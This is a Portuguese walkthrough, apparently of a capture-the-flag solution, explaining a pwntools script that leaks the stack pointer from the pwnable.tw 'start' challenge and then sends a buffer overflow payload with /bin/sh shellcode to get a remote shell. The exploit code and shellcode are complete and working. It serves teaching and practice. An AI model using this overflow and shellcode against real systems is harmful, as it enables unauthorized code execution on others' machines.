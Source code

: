 1. Configuração e Conexão Remota
python
Copiar código
from pwn import *

# Cria uma conexão com o serviço remoto
r = remote('chall.pwnable.tw', 10000)
Aqui, você está utilizando a biblioteca pwntools, que é amplamente usada em competições de CTF para facilitar a interação com binários vulneráveis. A função remote() estabelece uma conexão com o serviço remoto hospedado em chall.pwnable.tw na porta 10000. Esse é o alvo que você pretende explorar.

2. Função leak(r)
python
Copiar código
def leak(r):
    # Prepara o buffer e envia o payload
    buf = b"A" * 20
    buf += p32(0x08048087)
    
    r.recvuntil(b'CTF:')  # Recebe até a string 'CTF:'
    r.send(buf)  # Envia o buffer
    
    # Recebe o endereço da pilha e imprime
    response = r.recv(4)  # Recebe exatamente 4 bytes
    esp = u32(response)  # Converte para um inteiro de 32 bits
    print(f"[+] ESP is at {hex(esp)}")
    
    return esp
Objetivo da Função:
Essa função tem como objetivo vazar (ou "leak") o endereço da pilha, que será crucial para a fase de exploração.

Etapa 1: Preparação do Buffer
buf = b"A" * 20: Isso cria um buffer de 20 bytes preenchido com a letra "A". Esse tamanho é escolhido para preencher exatamente o espaço na pilha até o ponto de sobrescrever o ponteiro de instrução (EIP).
buf += p32(0x08048087): Aqui, você adiciona ao buffer o endereço 0x08048087, que corresponde a uma instrução específica no binário alvo. Provavelmente, essa instrução é um "ret" ou algo que leve o controle do fluxo de volta para o programa, facilitando o vazamento do valor do ESP.
Etapa 2: Envio e Recepção de Dados
r.recvuntil(b'CTF:'): Esse comando espera até que o serviço remoto envie a string 'CTF:', o que indica que o programa está pronto para receber a entrada.
r.send(buf): O buffer preparado anteriormente é enviado ao serviço remoto. A ideia é sobrescrever o EIP e forçar o programa a executar a instrução no endereço 0x08048087.
Etapa 3: Vazamento do Endereço ESP
response = r.recv(4): Recebe exatamente 4 bytes da resposta, que são esperados como sendo o valor do registro ESP.
esp = u32(response): Converte os 4 bytes recebidos em um inteiro de 32 bits, que representa o endereço na pilha.
print(f"[+] ESP is at {hex(esp)}"): Exibe o valor do ESP, o que é fundamental para calcular a localização exata onde o shellcode será injetado.
O valor retornado é o endereço da pilha (esp), que será usado para a segunda fase da exploração.

3. Função exploit(r, esp)
python
Copiar código
def exploit(r, esp):
    # Prepara o buffer
    buf = b"A" * 20
    eip = p32(esp + 20)
    
    # Define o shellcode
    shellcode = b'\x31\xc0\x99\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80'
    
    # Monta o payload
    payload = buf + eip + shellcode
    
    print("[+] Sending Payload")
    r.send(payload)  # Envia o payload
    
    r.interactive()  # Coloca o processo em modo interativo
Objetivo da Função:
A função exploit() constrói e envia o payload final, que é projetado para executar um shellcode na máquina alvo.

Etapa 1: Preparação do Buffer
buf = b"A" * 20: Novamente, preenche o buffer com 20 bytes de "A", que sobrescrevem o EIP.
eip = p32(esp + 20): Calcula o novo valor do EIP. Este valor é ajustado para que a execução salte diretamente para o shellcode na pilha. O esp + 20 é utilizado porque o shellcode será colocado 20 bytes após o valor do ESP.
Etapa 2: Definição do Shellcode
shellcode: Este é o código de máquina que será executado na máquina alvo. O shellcode fornecido cria um shell ("/bin/sh"). Ele é responsável por abrir uma linha de comando na máquina alvo, permitindo que o atacante execute comandos arbitrários.
Etapa 3: Construção e Envio do Payload
payload = buf + eip + shellcode: O payload final é uma combinação do buffer inicial, o novo valor do EIP (que aponta para o shellcode) e o próprio shellcode.
r.send(payload): Envia o payload para o serviço remoto.
r.interactive(): Coloca a sessão em modo interativo, permitindo que você interaja com o shell que foi aberto na máquina alvo.
4. Execução Completa
Leak ESP: Primeiro, você vaza o valor do registro ESP para saber exatamente onde injetar o shellcode.
Exploit: Em seguida, você constrói o payload final utilizando o endereço vazado, e injeta o shellcode, que, quando executado, abre um shell interativo na máquina alvo.
